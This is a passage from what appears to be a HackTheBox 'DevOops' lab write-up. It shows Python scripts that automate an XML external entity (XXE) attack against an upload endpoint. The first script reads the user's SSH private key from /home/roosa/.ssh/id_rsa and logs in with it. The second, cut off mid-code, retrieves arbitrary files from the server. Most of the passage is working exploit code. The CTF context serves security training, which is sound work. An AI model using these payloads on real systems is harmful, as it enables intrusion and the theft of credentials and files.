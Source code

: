```py
    data = "-----------------------------830128796004521931929284550\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.xml\"\r\nContent-Type: text/xml\r\n\r\n<?xml version=\"1.0\"?>\r\n<!DOCTYPE data [\r\n<!ELEMENT data (ANY)>\r\n<!ENTITY file SYSTEM \"file:///home/roosa/.ssh/id_rsa\">\r\n]>\r\n\r\n<payload>\n  <Author>0x4rt3mis</Author>\n  <Subject>XEE</Subject>\n  <Content>&file;</Content>\n</payload> \n\r\n-----------------------------830128796004521931929284550--\r\n"
    roosa_key = r.post(url, headers=headers, data=data, proxies=proxies)
    index = roosa_key.text.find("Content")
    global key
    key = roosa_key.text[index:index+1683].split(':')[1][1:]

#Function to connect ssh on the box
def connectSSH(rhost,key):
    print("[+] Done! Now Let's connect!!!! [+]")
    ssh_key = '/tmp/rsa_key'
    f = open(ssh_key, 'w'); f.write(key); f.close()
    os.system('chmod 400 /tmp/rsa_key')
    os.system('sleep 1')
    os.system('ssh -i /tmp/rsa_key roosa@%s' %rhost)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    rhost = args.target

    '''Here we call the functions'''
    # Let's get the ssh key
    getXEEKey(rhost)
    # Let's connect
    connectSSH(rhost,key)

if __name__ == '__main__':
    main()
```

We did one to retrieve any file from the server too

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2006:14:28.png)

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto XEE in DevOops to retrieve files

import argparse
import requests
import sys
import os
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

#Function to XEE files
def getXEEKey(rhost,file):
    print("[+] Let's get the file for you !!! [+]")
    url = "http://%s:5000/upload" %rhost
    xml_xee = f'''<?xml version="1.0"?>
<!DOCTYPE data [
```